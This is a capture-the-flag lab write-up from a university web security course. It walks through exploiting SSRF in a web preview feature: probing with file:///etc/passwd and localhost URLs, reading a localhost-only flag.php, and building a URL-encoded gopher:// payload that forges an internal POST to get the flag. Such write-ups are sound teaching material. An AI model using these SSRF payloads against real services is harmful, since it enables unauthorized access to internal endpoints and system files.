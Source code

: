 ```yaml
---
title: Simple Web 0x12(Lab - Web Preview Card)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > SSRF"
---
```


# Simple Web 0x12(Lab - Web Preview Card)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8500/

## Background
[Web Hacking | 續章【EDU-CTF 2021】](https://youtu.be/hWC-Evt-sBc?t=6136)
[網站安全🔒 伺服器端請求偽造 SSRF 攻擊 — 「項莊舞劍，意在沛公」](https://medium.com/程式猿吃香蕉/網站安全-伺服器請求偽造-ssrf-攻擊-項莊舞劍-意在沛公-7a5524926362)

## Exploit - SSRF
When you see a preview function, then it may have SSRF problem.
1. Test it
`file:///etc/passwd` or `http://127.0.0.1`
![](https://i.imgur.com/NKbIlDT.png)

2. Analyze `flag.php`
![](https://i.imgur.com/OGo7biu.png)
    :::spoiler source code
    ```php=
    <?php
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') die("Only for localhost user.");
    ?>
    <form action="/flag.php" method="post">
        Do you want the FLAG? <input type="text" name="givemeflag" value="no">
        <input type="submit">
    </form>
    <?php
    if (isset($_POST['givemeflag']) && $_POST['givemeflag'] === 'yes')
        echo "FLAG:", getenv('FLAG');
    ```
    :::
    If you want flag, you need visit `/flag.php` as localhost and send a form data with parameter `givemeflag`.
3. Construct package - <font color="FF0000">**gopher**</font>
    ```!
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 14
    Content-Type: application/x-www-form-urlencoded

    givemeflag=yes
    ```
    Transferred by [urlencode](https://www.urlencoder.org/) with `CRLF` type.
Payload: `gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0d%0aHost%3A%20127.0.0.1%0d%0aContent-Length%3A%2014%0d%0aContent-Type%3A%20application%2Fx-www-form-urlencoded%0d%0a%0d%0agivemeflag%3Dyes%0d%0a`

4. Then we got flag...

Flag: `FLAG{gopher://http_post}`